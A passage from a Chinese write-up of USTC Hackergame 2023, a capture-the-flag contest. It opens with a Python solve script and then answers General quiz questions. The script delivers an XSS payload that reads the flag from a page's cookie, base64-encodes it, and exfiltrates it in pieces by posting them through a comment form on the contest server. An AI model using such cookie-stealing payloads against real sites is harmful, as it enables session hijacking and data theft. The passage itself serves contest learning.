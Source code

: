 ``` python
start = 0
while True:
  session.post("http://202.38.93.111:10051/result", {
    "comment": '"+[location=name]+"'
  })
  conn = connect("202.38.93.111", 10053)
  conn.sendlineafter(b"token: ", token.encode())
  conn.sendlineafter("文件。".encode("utf8"), f"""<script>open("http://web/result", `javascript:document.getElementsByTagName("textarea")[0].value = btoa(document.cookie.split("flag=")[1]).substring({start}, {start + 24}); document.getElementsByTagName("form")[0].submit();`);</script>\nEOF""".encode())
  conn.recvuntil(b"Bye bye!")
  conn.close()
  response = session.get("http://202.38.93.111:10051/result")
  s = re.search(r"你留下的评论：([^\"]+)", response.text).group(1)
  if s == "（还没有评论）":
    break
  print(s, end="")
  b64str += s
  start += 24

print("\n" + urllib.parse.unquote_plus(base64.b64decode(b64str).decode()))
```

至此，Web题就算都做出来了！（虽然是赛后才做出来的）

## General
### 猫咪小测
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E7%8C%AB%E5%92%AA%E5%B0%8F%E6%B5%8B/)

##### 1. 想要借阅世界图书出版公司出版的《A Classical Introduction To Modern Number Theory 2nd ed.》，应当前往中国科学技术大学西区图书馆的哪一层？（30 分）
先从[中国科学技术大学图书馆](https://lib.ustc.edu.cn/)网站查找馆藏，发现位于“西区外文书库”，继续找到[“西区图书馆简介”](https://lib.ustc.edu.cn/%E6%9C%AC%E9%A6%86%E6%A6%82%E5%86%B5/%E5%9B%BE%E4%B9%A6%E9%A6%86%E6%A6%82%E5%86%B5%E5%85%B6%E4%BB%96%E6%96%87%E6%A1%A3/%E8%A5%BF%E5%8C%BA%E5%9B%BE%E4%B9%A6%E9%A6%86%E7%AE%80%E4%BB%8B/)，外文书库位于12楼。答案是`12`。

##### 2. 今年 arXiv 网站的天体物理版块上有人发表了一篇关于「可观测宇宙中的鸡的密度上限」的论文，请问论文中作者计算出的鸡密度函数的上限为 10 的多少次方每立方秒差距？（30 分）
机翻，得到英语“The Upper Limit of Chicken Density in the Observable Universe”，谷歌搜索发现[论文](https://arxiv.org/abs/2303.17626)，摘要里有“We find the most restrictive upper limit from the domains considered to be 10<sup>23</sup> pc<sup>−3</sup>...”，答案是`23`。

##### 3. 为了支持 TCP BBR 拥塞控制算法，在编译 Linux 内核时应该配置好哪一条内核选项？（20 分）
继续机翻，得到英语“TCP BBR congestion control algorithm Linux compile”，谷歌搜索发现[这篇文章](https://www.cyberciti.biz/cloud-computing/increase-your-linux-server-internet-speed-with-tcp-bbr-congestion-control/)，页面里面有“CONFIG_”开头的字符，答案是`CONFIG_TCP_CONG_BBR`。
